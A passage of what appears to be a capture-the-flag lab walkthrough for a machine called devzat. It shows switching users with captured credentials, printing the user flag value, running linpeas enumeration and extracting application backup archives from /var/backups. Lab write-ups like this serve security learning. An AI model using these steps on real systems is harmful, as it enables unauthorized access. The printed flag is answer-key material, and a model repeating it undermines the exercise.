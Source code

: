 
We got catherine user’s creds. Let’s login, SSH won’t work. So use ‘su’.

```python
patrick@devzat:~/pets$ su catherine
Password:

catherine@devzat:/home/patrick/pets$ id
uid=1001(catherine) gid=1001(catherine) groups=1001(catherine)

catherine@devzat:/home/patrick/pets$ cd

catherine@devzat:~$ cat user.txt
75788201e2bf5e29a228ee71a01ea723
```

We got the user flag, let’s run the linpeas one more time.

```python
#)You_can_write_even_more_files_inside_last_directory

/var/backups/devzat-dev.zip
/var/backups/devzat-main.zip
/var/crash
/var/tmp
```

Under backups there are two zip files, lets copy them to /tmp location and extract both.

```python
catherine@devzat:/tmp$ ls -ls dev/ main/
dev/:
total 112
 4 -rw-r--r-- 1 catherine catherine     3 Jul 16 06:37 allusers.json
 4 -rw-r--r-- 1 catherine catherine  3235 Jun 22 18:35 art.txt
 8 -rw-r--r-- 1 catherine catherine  4436 Jun 22 18:35 colors.go
 4 -rw-r--r-- 1 catherine catherine  1944 Jun 22 18:35 commandhandler.go
16 -rw-r--r-- 1 catherine catherine 13827 Jun 22 18:35 commands.go
12 -rw-r--r-- 1 catherine catherine 11341 Jul 16 06:56 devchat.go
 4 -rw-r--r-- 1 catherine catherine   648 Jun 22 18:35 eastereggs.go
 4 -rw-r--r-- 1 catherine catherine   990 Jun 22 18:35 games.go
 4 -rw-r--r-- 1 catherine catherine  1114 Jun 22 18:35 go.mod
16 -rw-r--r-- 1 catherine catherine 13983 Jun 22 18:35 go.sum
 4 -rw-r--r-- 1 catherine catherine  1067 Jun 22 18:35 LICENSE
 4 -rw-r--r-- 1 catherine catherine     1 Jul 16 06:37 log.txt
 8 -rw-r--r-- 1 catherine catherine  5630 Jun 22 18:35 README.md
 4 -rwxr-xr-x 1 catherine catherine   123 Jun 22 18:35 start.sh
 4 -rw-r--r-- 1 catherine catherine   356 Jun 22 18:35 testfile.txt
12 -rw-r--r-- 1 catherine catherine  8715 Jun 22 18:35 util.go

main/:
total 108
 4 -rw-r--r-- 1 catherine catherine   108 Jul 16 06:38 allusers.json
 4 -rw-r--r-- 1 catherine catherine  3235 Jun 22 18:35 art.txt
 8 -rw-r--r-- 1 catherine catherine  4436 Jun 22 18:35 colors.go
 4 -rw-r--r-- 1 catherine catherine  1944 Jun 22 18:35 commandhandler.go
16 -rw-r--r-- 1 catherine catherine 12403 Jun 22 18:35 commands.go
12 -rw-r--r-- 1 catherine catherine 11332 Jul 16 06:54 devchat.go
 4 -rw-r--r-- 1 catherine catherine   648 Jun 22 18:35 eastereggs.go
 4 -rw-r--r-- 1 catherine catherine   990 Jun 22 18:35 games.go
 4 -rw-r--r-- 1 catherine catherine  1114 Jun 22 18:35 go.mod
16 -rw-r--r-- 1 catherine catherine 13983 Jun 22 18:35 go.sum
 4 -rw-r--r-- 1 catherine catherine  1067 Jun 22 18:35 LICENSE
 4 -rw-r--r-- 1 catherine catherine     1 Jul 16 06:37 log.txt
 8 -rw-r--r-- 1 catherine catherine  5630 Jun 22 18:35 README.md
 4 -rwxr-xr-x 1 catherine catherine   123 Jun 22 18:35 start.sh
12 -rw-r--r-- 1 catherine catherine  8715 Jun 22 18:35 util.go
```